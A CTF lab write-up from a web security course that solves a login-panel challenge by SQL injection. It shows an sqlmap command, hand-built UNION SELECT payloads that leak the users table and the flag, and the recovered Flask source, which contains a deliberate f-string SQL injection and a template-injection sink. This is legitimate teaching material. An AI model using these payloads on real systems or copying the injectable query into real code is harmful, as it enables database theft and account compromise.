 ```yaml
---
title: Simple Web - 0x03(Lab - Normal Login Panel (Flag 1))
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x03(Lab - Normal Login Panel (Flag 1))
###### tags: `CTF` `Web` `eductf`
Challenge: https://login.ctf.zoolab.org/

## Background

## Source Code

### Analysis

## Exploit - SQLi

### Easy way - `SQLmap`
```bash!
$ ./sqlmap.py "https://login.ctf.zoolab.org/" --form -dbs sqlite --dump --risk=3 --level=5
...
---
Parameter: username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username='||(SELECT CHAR(116,86,90,89) WHERE 7681=7681 AND 7766=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&password=
---
```

### Hard way - try&error
1. Check if it has `sqli` problem
Payload: `union'`
![](https://i.imgur.com/xIfsghR.png)

2. Try union based
Payload: `admin' union select 1 --` **→ WRONG**
Payload: `admin' union select 1,2 --` **→ WRONG**
Payload: `admin' union select 1,2,3 --` **→ WRONG**
Payload: `admin' union select 1,2,3,4 --`
![](https://i.imgur.com/3G8F2yP.png)
Obviously, it shows some info when select 4 values

3. Must know the metadata
According to the author, it used `sqlite` as its `DBMS`. As [kaibro cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)
    > 爆表名
    SELECT name FROM sqlite_master WHERE type='table'

    Then we can add this in our request
    Payload: `admin' union select 1,2,3,sql FROM sqlite_master WHERE type='table' --`
    ![](https://i.imgur.com/3OBjg43.png)

    Based on the info we leak, there's a table named `users` with <font color="FF0000">`id`, `username`, `password`,and `count`</font> 4 columns

4. Leak password
Payload: `admin' union select 1,2,3,password FROM users --`
![](https://i.imgur.com/p4d4Ep5.png)


## Result
Then we got source code!!!
:::spoiler code
```python=
from flask import Flask, request, render_template, render_template_string, send_file
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()
app = Flask(__name__)
app.config["SQLALCHEMY_DATABASE_URI"] = "sqlite:///app.db"
db.init_app(app)

with app.app_context():
  db.session.execute("""
    CREATE TABLE IF NOT EXISTS users(
      id Integer PRIMARY KEY,
      username String NOT NULL UNIQUE,
      password String,
      count Integer DEFAULT 0
    );
  """)
  db.session.execute("INSERT OR REPLACE INTO users (username, password) VALUES ('admin', 'FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}')")
  db.session.commit()

def login(greet):
  if not greet:
    return send_file('app.py', mimetype='text/plain')
  else:
    return render_template_string(f"Hello {greet}")

@app.route('/', methods=["GET", "POST"])
def index():
  if request.method == "GET":
    return render_template('index.html')
  else:
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    error = ''
    user = db.session.execute("SELECT username, password FROM users where username=:username", {"username":username}).first()

    if user and user[1] == password:
      return login(request.form.get('greet', ''))
    elif not user:
      error += "User doesn't exist! "

    # New feature! count login failed event
    db.session.execute("UPDATE users SET count = count + 1 WHERE username=:username", {"username": username})
    db.session.commit()
    count = db.session.execute(f"SELECT * FROM users WHERE username='{username}'").first() or [0, 0, 0, 0]
    error += f'Login faild count: {count[3]}'

    return render_template('index.html', error=error)


if __name__ == "__main__":
  app.run(host="0.0.0.0")
```
:::
